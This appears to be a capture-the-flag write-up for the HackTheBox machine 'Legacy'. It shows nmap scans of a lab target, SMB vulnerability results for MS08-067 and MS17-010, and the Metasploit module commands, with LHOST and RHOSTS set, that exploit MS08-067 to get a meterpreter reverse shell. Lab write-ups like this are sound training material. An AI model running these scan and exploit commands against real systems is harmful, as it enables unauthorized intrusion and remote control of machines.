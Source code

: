 ```yaml
---
description: One of the first few boxes I've done!
---
```


# Legacy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.242
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:20 EDT
Nmap scan report for 10.129.85.242
Host is up (0.076s latency).
Not shown: 61445 closed tcp ports (conn-refused), 4087 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

This was an outdated machine, so there was bound to be some vulnerabilities with the SMB service. We can run some `nmap` scripts to determine this:

```
$ sudo nmap --script smb-vuln* -p 445 10.129.85.242 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:22 EDT
Nmap scan report for 10.129.85.242
Host is up (0.0060s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
We
Nmap done: 1 IP address (1 host up) scanned in 5.34 seconds
```

So this was vulnerable to MS08-067. We can use `msfconsole` to exploit this.&#x20;

```
use exploit/windows/smb/ms08_067_netapi
set LHOST 10.10.14.13
set RHOSTS 10.129.85.242
exploit
```

This would give us a meterpreter shell.

<figure><img src="../../../.gitbook/assets/image (86) (3).png" alt=""><figcaption></figcaption></figure>

For some reason, `whoami` does not work on the machine. We can use the `whoami.exe` binary that is within Kali at `/usr/share/windows-resources/binaries` and run it via SMB.

<figure><img src="../../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
